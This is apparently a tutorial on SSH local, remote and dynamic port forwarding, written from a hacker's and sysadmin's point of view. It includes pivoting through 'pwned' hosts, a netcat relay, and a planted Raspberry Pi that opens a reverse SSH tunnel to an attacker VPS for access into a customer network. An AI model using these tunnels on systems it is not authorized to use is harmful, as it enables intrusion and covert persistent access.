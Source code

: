 # Why?

A hacker must be dynamic and must learn how to adapt to the situation he is put in. Network environments can be diverse. They can be permissive, and navigation is easy around them. In reality though, many corporate networks are complex and often restrictive, with a variety of firewalls in place between different network segments.

A key tool in the toolbelt a hacker has is `ssh`. It is pretty much guaranteed to exist on every operating system, and once a login has been found to a server, it is critical for attackers to be able to pivot across a network.

Not only as a hacker, but as a systems administrator, or developer port forwarding is quite helpful. From a "poor man's vpn" that allows you to access your home network, to reaching services inside of NATs, or taking remote resources and exposing them locally, `ssh` is a versatile tool which can do it all.

Let's walk through some common scenarios.

# Local Port Forward

With a local port forward, you're concerned with making remote content available locally. You will see a few examples down below.

## Scenario 1

Let's say, you compromise as machine that exposes an admin interface to `localhost:8000` only. You would be unable to reach this service under normal circumstances because you are coming from an external ip. Sure, you could execute commands from the compromised host, but most likely your toolkit will not exist there (and if it did, you should be concerned). You want to use your own tooling to gain access. How can we do that? By creating a local forward.

```bash
ssh target -L 8000:localhost:8000
```

So, what did we just do? We opened port `8000` on our local machine. This connection will be bound to the socket `localhost:8000`, which is executed on `target`. This will allow us to access the admin interface in our browser by navigating to `http://localhost:8000`.

## Scenario 2

For security reasons, you don't allow your home router to be configured from the public internet. You must be logged in from your home network in order to access it, but you don't have a VPN set up. However, you do have access to a jump host machine which is located on the network which can reach the router page. Let's set up a forward to the router.

```bash
ssh jump -L 8443:192.168.1.1:443
```

Now, we created an open port `8443` on our local machine bound to our router's internal ip address at `192.168.1.1` and port  `443`. In your browser, connect to `https://localhost:8443`. Now you can manage your machines from outside of the home!

## Scenario 3

Man, this Minecraft server I found in a pwned network would be fun to play on with my friends, but unfortunately it's not open to the public. Or, is it?

```bash
ssh pwned -L 0.0.0.0:25565:minecraft.server:25565
```

Now, we've opened up the port `25565` on our machine so that it's visible to anyone via `0.0.0.0`. This means, anyone who can directly connect to ports on our machine will be able to connect to the Minecraft server. Now, you can your friends can troll to your hearts desire (but don't steal their diamonds to make hoes, okay?)

# Remote Port Forward

Remote port forwards allow you to take local content and make it available on the remote.

## Scenario 1

You've about to perform a physical penetration test on a customer site. You know they have a pretty locked down external environment, but the word is they think that their firewall means they don't need any internal security controls. I mean, they can't get in, so how would they even hack us? You know that they only allow encrypted web traffic to the external internet. Maybe they don't have a firewall with deep packet inspection, and are just checking the port number?

In preparation, you acquire a public cloud instance and configure your `ssh` port to port `443`. Next, you create a Raspberry pi which when powered on will run a script with the following line:
```bash
ssh my_vps -R 2222:localhost:22
```

You perform the penetration test and successfully plant the device on the customer network. Now, you head back home and log into your VPS to find port `2222` now has a connection. It sends you to port `22` on the Raspberry Pi you set up which is inside the customer network. Now, you can access all of their internal machines!

## Scenario 2

After you had your fun trolling in the hacked Minecraft server, you've reformed your ways and decide to set one up yourself. However, you don't want to expose the IP address of your house where you run it. Thankfully, there is a low-latency VPS instance you can connect to.

You grab your terminal, and run the following command:
```bash
ssh my_vps -R 0.0.0.0:25565:192.168.1.5:25565
```

You just opened up port `25565` to the world to access on your VPS instance, and it will be routed over to your local Minecraft server running at `192.168.1.5:25565`. Now, nobody will find out your IP, and you get to play with friends!

# Dynamic Forwards

In the previous sections, we saw that though there is much flexibility in creating tunnels with both directions. However, we were limited to one socket pair. What if we could bypass that and open all all ports to go through? Actually, you can! You can have `ssh` set up a SOCKS5 proxy for you. But... with a caveat. It will only work for TCP traffic. It is not possible to forward UDP ports with the built in `ssh` SOCKS5 proxy.

This ability is incredibly useful to bypass firewalls and pivot across a network. It's also commonly known as the "poor man's vpn" because no additional configuration is necessary except for `ssh` access to a server on the network you'd like to connect to things.

## Scenario 1

Let's look back to Scenario 2 from the local forwarding section. It's great that we can now connect to our router, but what about other services on our network such as our Minecraft server?

Let's alter the command to extend its functionality:
```bash
ssh jump -D 1080 
```

What did we just do? We opened a SOCKS5 proxy on our client machine's port `1080`. Now, any SOCKS5 compatible client can forward traffic through our `jump` server to reach internal services. For a browser, this is usually done in the settings, or by using an extension like FoxyProxy. Many applications also allow for SOCKS5 configuration.

However, our Minecraft client doesn't allow for SOCKS in this specific case. How can we overcome it?
```bash
mkfifo /tmp/f; cat /tmp/f | nc -klvp 25565 | nc -x localHost:1080 -X 5 192.168.1.5 25565 > /tmp/f; rm /tmp/f
```

Wait, what is that? That uses netcat to create a listening port on `25565` and pipes the output to the input of a netcat connection using the SOCKS5 proxy we created earlier to connect to out Minecraft server. Now, the output of that connection is redirected to a pipe which is being read and put into the input of the listening port.

In short, you simply opened a new port `25565` on your local host to connect to your Minecraft server.

Or, we can do it in a simpler manner using `socat`.
```bash
socat TCP-LISTEN:25565,bind,reuseaddr,fork SOCKS5-CONNECT:localhost:1080:192.168.1.5:25565
```

## Scenario 2

In the previous section we mentioned a physical penetration test. Though it's great we can execute commands from our Raspberry Pi, wouldn't it be more useful to route arbitrary IP addresses over it from our local machine? With a few commands you can!

```bash
ssh localhost -p 2222 -J my_vps -D 1080
```

Here, we jump through the VPS to connect to `localhost:2222`. Now, we create an open port on `1080` to route through the raspberry pi.

Once again, we can route any arbitrary traffic we would like over this connection just as in the previous scenario.
